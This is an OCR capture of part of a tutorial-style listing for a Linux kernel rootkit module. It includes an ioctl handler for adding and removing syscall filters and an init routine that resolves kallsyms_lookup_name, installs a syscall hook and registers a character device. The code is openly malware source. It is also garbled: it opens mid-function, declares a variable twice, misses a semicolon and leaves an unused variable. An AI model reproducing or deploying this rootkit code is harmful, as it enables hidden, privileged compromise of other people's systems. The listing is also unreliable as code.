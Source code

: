 		pr_err("%s: syscall_nr=%d, comm=%s not found\n", __func__, finfo->syscall_nr, finfo->comm);
		return -EFAULT;
	}

    
    static long rootkit_ioctl(struct file *filp, unsigned int ioctl,
                              unsigned long arg) {
        long ret = 0;
	    struct filter_info finfo;

        printk(KERN_INFO "%s\n", __func__);

        switch (ioctl) {
        case IOCTL_ADD_FILTER:
            struct filter_info info;
            if (copy_from_user(&finfo, (void *)arg, sizeof(struct filter_info))) {
                ret = -EFAULT;
                break;
            }
            ret = add_filter(&finfo);
            break;
        case IOCTL_REMOVE_FILTER:
            struct filter_info finfo;
            if (copy_from_user(&finfo, (void *)arg, sizeof(struct filter_info))) {
                ret = -EFAULT;
                break;
            }
            ret = remove_filter(&finfo)
            break;
        default:
            ret = -EINVAL;
        }
        return ret;
    }
    ```

7. Module initialization and memory cleanup on removal.
    ```c
	static int __init rootkit_init(void) {
		if (get_kallsyms_lookup_name()) {
			pr_err("failed to get kallsyms_lookup_name\n");
			return -EFAULT;
		}
		resolve_symbol_addr();
		if (set_syscall_hook()) {
			pr_err("failed to set syscall hook\n");
			return -EFAULT;
		}

		major = register_chrdev(0, OURMODNAME, &fops);
		if (major < 0) {
			pr_err("Registering char device failed with %d\n", major);
			return major;
		}
